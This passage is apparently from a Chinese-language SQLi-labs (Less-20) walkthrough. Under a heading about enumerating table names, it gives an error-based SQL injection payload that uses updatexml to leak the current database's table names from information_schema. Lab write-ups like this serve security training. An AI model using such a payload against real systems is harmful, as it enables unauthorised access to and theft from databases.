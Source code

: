 ![Less-20_11](./img/Less-20_11.PNG)



+ 爆破数据表名

~~~ shell
' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) #
~~~
